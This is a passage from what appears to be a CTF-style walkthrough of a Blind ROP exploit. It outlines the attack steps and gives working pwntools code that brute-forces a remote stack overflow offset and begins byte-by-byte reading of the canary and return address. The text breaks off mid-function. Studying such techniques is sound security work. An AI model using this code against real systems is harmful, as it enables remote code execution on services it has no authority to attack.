  - Break ASLR by "stack reading" a return address (and canaries).
 - Find a "stop gadget" which halts ROP chains so that other gadgets can be found.
 - Find the BROP gadget which lets you control the first two arguments of calls.
 - Find a call to strcmp, which as a side effect sets the third argument to calls (e.g., write length) to a value greater than zero.
 - Find a call to write.
 - Write the binary from memory to the socket.
 - Dump the symbol table from the downloaded binary to find calls to dup2, execve, and build shellcode.
 - ***We will modify the each step according to our requirement but this is the basic layout.***
SO let's Go to [Exploit](#Exploit)
## Exploit
- Note:- The code provided here are just snippets to execute everything successfully GO to [Final Exploit](#Final_Exploit)
### Finding Stack overflow offset
The first is to find the vulnerability of the stack overflow, the old way is to start with 1 character, brute force enumeration, until it crashes.
```python
def get_buffer_size():
     for i in range(100):
        payload  = "A"
        payload += "A"*i
        buf_size = len(payload) - 1
        try:
            p = remote(HOST, PORT)
            p.recvline()
            p.send(payload)
            p.recv()
            p.close()
            log.info("bad: %d" % buf_size)
        except EOFError as e:
            p.close()
            log.info("buffer size: %d" % buf_size)
            return buf_size
```
```text
[+] Buffer size: 88
```
EOFError will only happen when our payload will write the rip or canary that means the correct size of buffer will be len(payload) -1
### Stack reading for canary
Stack reading is a process in which we bruteforce the canary and rip byte by byte with every possible value i.e from 0x0 to 0xff if no crash happens that means the byte value is right and we will add that byte in our ret_Address or canAary value
```python
def stack_address_leak(buf_size):
    context.log_level = 'error'
    my_list = []
    ret_Addr = ''
    guess = 0x0
    base = ''
    while len(my_list) < 8:
        guess = 0x0
        while guess != 0xff:
            sleep(0.1)
            payload  = "A"*buf_size
            if guess == 0xa:
                guess += 1
            payload = payload + ''.join(ret_Addr) + chr(guess)
            try:
                p = remote(HOST,PORT)
                p.recvline()
```